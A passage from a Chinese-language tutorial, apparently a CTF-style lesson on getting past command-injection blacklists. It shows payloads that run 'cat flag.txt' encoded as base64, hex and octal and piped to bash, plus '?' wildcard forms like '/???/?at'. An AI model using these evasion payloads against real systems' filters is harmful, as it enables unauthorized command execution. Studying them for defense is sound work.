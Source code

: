 ##### 思路 5：编码绕过

对于黑名单检测我们也可以通过 base64 编码方式进行绕过

```plain
`echo "Y2F0IGZsYWcudHh0"|base64 -d`
echo "Y2F0IGZsYWcudHh0"|base64 -d|bash
```

[![](assets/1708998334-9acbd0aa94958956181d32b6a66595d3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240224142533-83992ad6-d2dd-1.png)

##### 思路 6：十六进制

对于黑名单检测我们也可以通过十六进制编码方式进行绕过：

```plain
echo 'cat flag.txt' |xxd
echo "0x63617420666c61672e7478740a" | xxd -r -p | bash
```

##### 思路 7：八进制类

对于黑名单检测我们也可以通过八进制编码方式进行绕过：

```plain
echo "cat flag.txt" | od -An -t o1
$(printf "\143\141\164\040\146\154\141\147\056\164\170\164\012")
```

##### 思路 8：通配符类

对于黑名单检测我们也可以通过通配符的方式进行绕过：  
通配符——?：用于匹配单个字符，当我们在命令行中使用？作为通配符时，它代表一个字符的位置，可以匹配任何单个字符 (除了斜杠/)，这对于模糊匹配文件名或路径非常有用

```plain
cat fl?g.txt
cat fla?.txt
```

[![](assets/1708998334-0b8d5f2ca12a5c25cbb02a748d27d41e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240224142705-ba51b8ae-d2dd-1.png)

```plain
/???/???/?at flag.txt
/???/?at flag.txt
/???/?[a]''[t] flag.txt
```

[![](assets/1708998334-39c42cf3d17c16d309bec0fc41351a51.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240224142720-c3bf4b4a-d2dd-1.png)  
通配符——*：通配符*用于模糊匹配文件名或路径中的任意字符序列 (包括空字符序列)，它可以与命令行命令一起使用以匹配多个文件或路径
